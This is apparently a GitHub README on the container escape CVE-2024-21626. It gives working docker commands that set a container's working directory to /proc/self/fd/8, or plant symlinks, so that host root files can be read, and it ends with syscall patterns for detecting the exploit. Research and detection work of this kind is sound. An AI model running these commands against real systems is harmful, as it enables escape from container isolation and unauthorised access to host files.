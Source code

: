 # Docker Escape Vulnerability CVE-2024-21626

## Research link: https://nitroc.org/en/posts/cve-2024-21626-illustrated/#exploit-via-setting-working-directory-to-procselffdfd

### According to the article, it can be exploited in 2 ways:

#### 1) Set the working directory of the container to /proc/self/fd/<fd> (where <fd> stands for the file descriptor when opening /sys/fs/cgroup in host filesystem. Usually it’s 7 or 8) when running a container.

#### 2) Create a symlink for /proc/self/fd/<fd> (where <fd> stands for the file descriptor when opening /sys/fs/cgroup in host filesystem. Usually it’s 7 or 8). When users execute commands inside the container via docker exec or kubectl exec by setting the working directory to the symlink, attackers can access host filesystem through /proc/<PID>/cwd, where <PID> stands for the PID of the process generated by docker exec or kubectl exec command.

## Commands:

### 1) Exploit via Setting Working Directory to /proc/self/fd/

    docker run -w /proc/self/fd/8 --name cve-2024-21626 --rm -it debian:bookworm 

    cat ../../../../../../root/root/.txt

### 2) Docker Exec

    Containerised root shell:> ln -sf /proc/self/fd/7/ /foo

    Containerised root shell:> ln -sf /proc/self/fd/8/ /bar

    Attacker shell:> docker exec -it -w /bar cve-2024-21626 sleep 120

    Containerised root shell:> ls -f /proc

    Containerised root shell:> cat /proc/NUM/cmdline

    Containerised root shell:> ls -la /proc/NUM/cwd/../../../../root/

## Detection:

### According to the article:

### The exploits have the following characteristics:

 - A container will execve(2) a process with a special working directory which starts with /proc/self/fd/.

 - A container will create symbolic links via symlink(2) or symlinkat(2) with a special target directory link which starts with /proc/self/fd/.

 - A container will open files via open(2), openat(2) or openat2(2) with filenames like /proc/\d+/cwd/.*

